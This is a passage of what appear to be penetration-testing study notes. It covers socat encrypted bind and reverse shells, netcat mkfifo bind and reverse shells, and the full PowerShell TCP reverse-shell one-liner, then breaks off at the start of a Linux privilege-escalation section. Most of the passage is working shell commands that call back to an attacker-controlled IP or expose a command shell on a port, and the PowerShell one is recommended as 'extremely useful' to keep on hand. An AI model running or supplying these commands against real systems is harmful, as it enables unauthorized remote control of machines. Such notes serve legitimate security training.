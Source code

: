 To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

# Other Shell Codes

The -e in the common netcat bind/reverse shell, which is used to execute commands, is not always available on some linux machines for being unsafe.

On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

# Linux Privilege Escalation

# Enumeration

## Automated Enum Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.
